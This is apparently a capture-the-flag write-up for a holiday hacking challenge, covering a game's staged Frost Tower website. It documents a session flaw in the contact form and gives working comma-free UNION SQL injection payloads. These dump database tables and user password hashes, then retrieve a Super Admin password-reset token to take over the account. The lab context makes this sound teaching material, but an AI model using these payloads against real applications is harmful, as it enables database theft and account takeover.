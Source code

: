 <h1 id="objective-12-frost-tower-website-checkup">Objective 12: Frost Tower Website Checkup</h1>
<p><strong>Location: Studio, Frost Tower, 16<sup>th</sup> Floor, <a href="https://staging.jackfrosttower.com/">https://staging.jackfrosttower.com/</a></strong><br>
<strong>Troll: Ingreta Tude</strong><br>
<strong>Hints provided by Ribb Bonbowford after completion of <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Elf%20Code%20Python.md">Elf Code Python</a></strong></p>
<p>This objective is to perform a security assessment of the Frost Tower website with the <a href="https://download.holidayhackchallenge.com/2021/frosttower-web.zip">source code</a> being provided.<br>
It has to be found, which job position Jack Frost plans to offer Santa on his todo list.</p>
<h3 id="auth-flaw">Auth flaw</h3>
<p>The application tracks the user’s session in “session” (login name, user’s role etc.).<br>
It was found that a valid session is also set, if you complete the <a href="https://staging.jackfrosttower.com/contact">contact form</a> whilst the email address is already captured in the database. So you could just register twice to get a valid user session for an unprivileged user.</p>
<pre><code>app.post('/postcontact', function(req, res, next){
[...]
        var rowlength = rows.length;
        if (rowlength &gt;= "1"){
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");
</code></pre>
<h3 id="sqli-flaw">SQLi flaw</h3>
<p>Using this unprivileged user session an SQLi flaw in the function to get user details could be used to retrieve more information from the database.<br>
As only caveat it has to be ensured, that the <strong>comma character has to be avoided</strong> in the SQL statement as the application splits up the query at the commas.<br>
Furthermore it is important to note that “union” requires that the <strong>number of columns on both sides match</strong>.</p>
<p>This URL is the base for all following SQLi attacks:</p>
<pre><code>https://staging.jackfrosttower.com/detail/461,id union
</code></pre>
<p>During research a <a href="https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/">very good explanation</a> about how to avoid commas in SQL statements and how to get to the right amount of columns was found and the attacks outlined below follow exactly this approach.</p>
<h3 id="getting-access-to-jack-frosts-todo-list">Getting access to Jack Frosts todo list</h3>
<p>We can obtain a list of all interesting tables in the MySQL database using this SQL statement:</p>
<pre><code>select * from information_schema.tables;
</code></pre>
<p>Rewritten for our SQLi flaw:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select F.3 from (select * from (select 1)i1 join (select 2)i2 join (select 3)i3 join (select 4)i4 join (select 5)i5 join (select 6)i6 join (select 7)i7 join (select 8)i8 join (select 9)i9 join (select 10)i10 join (select 11)i11 join (select 12)i12 join (select 13)i13 join (select 14)i14 join (select 15)i15 join (select 16)i16 join (select 17)i17 join (select 18)i18 join (select 19)i19 join (select 20)i20 join (select 21)i21 join (select 22)i22 join (select 23)i23 union select * from information_schema.tables)F)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>This reveals, that in addition to the tables “emails” and “uniquecontact”, which are known as they are used in the application, there is an additional table “todo”, which seems to be the todo list we need access to.</p>
<p>Using the SQL statement</p>
<pre><code>select * from information_schema.columns where table_name="todo"
</code></pre>
<p>the list of columns in the table “todo” can be obtained, rewritten for the SQLi:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select F.4 from (select * from (select 1)i1 join (select 2)i2 join (select 3)i3 join (select 4)i4 join (select 5)i5 join (select 6)i6 join (select 7)i7 join (select 8)i8 join (select 9)i9 join (select 10)i10 join (select 11)i11 join (select 12)i12 join (select 13)i13 join (select 14)i14 join (select 15)i15 join (select 16)i16 join (select 17)i17 join (select 18)i18 join (select 19)i19 join (select 20)i20 join (select 21)i21 join (select 22)i22 union select * from information_schema.columns where table_name="todo")F)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>we can see, that this table consists out of 3 columns: id, note, completed.<br>
The “note” column can then be extracted using</p>
<pre><code>select * from todo
</code></pre>
<p>Rewritten for the SQLi:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select F.2 from (select * from (select 1)i1 join (select 2)i2 join (select 3)i3 union select * from todo)F)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>This brings up Jack Frosts todo list:</p>
<ul>
<li>Buy up land all around Santa’s Castle</li>
<li>Build bigger and more majestic tower next to Santa’s</li>
<li>Erode Santa’s influence at the North Pole via FrostFest, the greatest Con in history</li>
<li>Dishearten Santa’s elves and encourage defection to our cause</li>
<li>Steal Santa’s sleigh technology and  build a competing and way better Frosty present delivery vehicle</li>
<li>Undermine Santa’s ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem</li>
<li>Force Santa to cancel Christmas</li>
<li>SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide… so the whole world sees that Frost saved the Holiday Season!!! Bwahahahahaha!</li>
<li>With Santa defeated, offer the old man a job as a <strong>clerk</strong> in the Frost Tower Gift Shop so we can keep an eye on him</li>
</ul>
<hr>
<h3 id="bonus-getting-super-admin-privileges-in-the-application">Bonus: Getting Super Admin privileges in the application</h3>
<p>Using the SQLi flaw, a full list of registered users and admins (along with password hashes and privilege levels) can be retrieved using this link:</p>
<pre><code>https://staging.jackfrosttower.com/detail/461,id%20union%20select%20*%20from%20users--
</code></pre>
<p>This contains for example:</p>
<ul>
<li>Super Admin</li>
<li>root@localhost</li>
<li>$2b<span class="katex--inline"><span class="katex"><span class="katex-mathml"><math xmlns="http://www.w3.org/1998/Math/MathML"><semantics><mrow><mn>10</mn></mrow><annotation encoding="application/x-tex">10</annotation></semantics></math></span><span class="katex-html" aria-hidden="true"><span class="base"><span class="strut" style="height: 0.64444em; vertical-align: 0em;"></span><span class="mord">10</span></span></span></span></span>JnLy8pq1fC/KrS.bn1NAOx13GzDavIOZJkuayDC7JSCNKvQUha3i</li>
<li>1</li>
<li>November 23rd, 2021 11:00:00</li>
<li>December 18th, 2021 7:05:17</li>
</ul>
<hr>
<ul>
<li>Admin</li>
<li>admin@localhost</li>
<li>$2b<span class="katex--inline"><span class="katex"><span class="katex-mathml"><math xmlns="http://www.w3.org/1998/Math/MathML"><semantics><mrow><mn>10</mn></mrow><annotation encoding="application/x-tex">10</annotation></semantics></math></span><span class="katex-html" aria-hidden="true"><span class="base"><span class="strut" style="height: 0.64444em; vertical-align: 0em;"></span><span class="mord">10</span></span></span></span></span>FTkzq07Az57M.Q8jw7ehB…h5Vdc3Vw04zQzJIt294bgwg7.aV1GC</li>
<li>2</li>
<li>December 3rd, 2021 11:00:00</li>
</ul>
<p>This shows, that we have a “Super Admin” with the email address root@localhost defined in the system.</p>
<p>Next the “<a href="https://staging.jackfrosttower.com/forgotpass">forgot password</a>” function of the application can be used to increase the privileges.<br>
When resetting the password for a user, a random token is created and stored in the user database. If we are able to get hold of this token, we can change the password of the user and have full control.</p>
<p>The token for “root@localhost” can be retrieved using this URL:</p>
<pre><code>https://staging.jackfrosttower.com/detail/-1,-id%20union%20select%20*%20from%20(select%201)a%20join%20(select%202)b%20join%20(select%203)c%20join%20(select%20F.7%20from%20(select%20*%20from%20(select%201)h%20join%20(select%202)i%20join%20(select%203)j%20join%20(select%204)k%20join%20(select%205)l%20join%20(select%206)m%20join%20(select%207)n%20union%20select%20*%20from%20users%20where%20email=%22root@localhost%22)F)d%20join%20(select%204)e%20join%20(select%20%222021-01-01%2000:00:00%22)f%20join%20(select%20%222021-01-01%2000:00:00%22)g;--
</code></pre>
<p>The timestamps in the above URL are required, as the values of these columns undergo a date conversion. This throws an exception if no valid date format is supplied:</p>
<pre><code>TypeError: /app/webpage/detail.ejs:29
    27|                             -
    28|                         &lt;% }else { %&gt;
 &gt;&gt; 29|                             &lt;%= dateFormat(encontact.date_update, "mmmm dS, yyyy h:MM:ss") %&gt;
    30|                         &lt;% } %&gt;                     
    31|                         &lt;/li&gt;
    32|                     &lt;/ul&gt;

Invalid date
    at Object.dateFormat (/app/node_modules/dateformat/lib/dateformat.js:39:17)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), &lt;anonymous&gt;:45:26)
    at Array.forEach (&lt;anonymous&gt;)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), &lt;anonymous&gt;:21:18)
    at returnedFn (/app/node_modules/ejs/lib/ejs.js:653:17)
    at tryHandleCache (/app/node_modules/ejs/lib/ejs.js:251:36)
    at View.exports.renderFile [as engine] (/app/node_modules/ejs/lib/ejs.js:482:10)
    at View.render (/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/app/node_modules/express/lib/application.js:640:10)
    at Function.render (/app/node_modules/express/lib/application.js:592:3)
</code></pre>
<p>Using the URL <a href="https://staging.jackfrosttower.com/forgotpass/token/">https://staging.jackfrosttower.com/forgotpass/token/</a>{retrieved token} it is possible to set a new password for the “Super Admin” user.<br>
Being logged on as this user, a new personalized user with “Super Admin” privileges can be created.</p>
<p><strong>Achievement: Frost Tower Website Checkup</strong></p>

